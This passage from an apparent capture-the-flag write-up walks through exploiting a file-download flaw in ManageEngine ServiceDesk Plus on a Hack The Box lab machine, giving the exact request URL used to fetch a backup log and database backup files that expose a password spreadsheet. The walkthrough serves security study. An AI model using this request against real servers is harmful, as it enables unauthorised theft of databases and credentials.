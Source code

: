 I can’t get `win.ini` like they show in the example, since it’s on `c:\`, and SDP is installed on `e:\`:

![1555101583626](https://0xdfimages.gitlab.io/img/1555101583626.png)

#### Extract Database Backup

[This article](https://blog.netxp.fr/manageengine-deep-exploitation/) shows how to use this exploit to get the database back-ups from target.

First, I’ll collect `E:\ManageEngine\ServiceDesk\bin\SDPbackup.log` from `http://10.10.10.132:8080/fosagent/repl/download-file?basedir=4&filepath=\bin\SDPbackup.log`. At the very bottom, I’ll find the following:

```

Zipfile created: E:\ManageEngine\ServiceDesk\bin\..\\backup\backup_postgres_9309_fullbackup_04_12_2019_17_43\backup_postgres_9309_fullbackup_04_12_2019_17_43_part_1.data
Zipfile created: E:\ManageEngine\ServiceDesk\bin\..\\backup\backup_postgres_9309_fullbackup_04_12_2019_17_43\backup_postgres_9309_fullbackup_04_12_2019_17_43_part_2.data
Backup Completed Successfully.

```

Now I have the location of two files that make up the database backup.

I’ll request both of those:
- `backup_postgres_9309_fullbackup_04_12_2019_17_43_part_1.data`
- `backup_postgres_9309_fullbackup_04_12_2019_17_43_part_1.data`

I’ll rename each of these to `.zip`, and then unzip:

```

PS C:\Users\0xdf\hackthebox\helpline-10.10.10.132 > Expand-Archive .\backup_postgres_9309_fullbackup_04_12_2019_17_43_part_1.zip

PS C:\Users\0xdf\hackthebox\helpline-10.10.10.132 > Expand-Archive .\backup_postgres_9309_fullbackup_04_12_2019_17_43_part_2.zip

```

Part2 contains the the xlsx file I already have:

```

PS C:\Users\0xdf\hackthebox\helpline-10.10.10.132\backup_postgres_9309_fullbackup_04_12_2019_17_43_part_2 > gci -af -Recurse

    Directory: C:\Users\0xdf\hackthebox\helpline-10.10.10.132\backup_postgres_9309_fullbackup_04_12_2019_17_43_part_2

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/12/2019   5:44 PM            124 filelist.txt

    Directory: C:\Users\0xdf\hackthebox\helpline-10.10.10.132\backup_postgres_9309_fullbackup_04_12_2019_17_43_part_2\f
    ileAttachments\Solutions\Jan2019\8

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/12/2019   5:44 PM          17775 Password Audit.xlsx

```
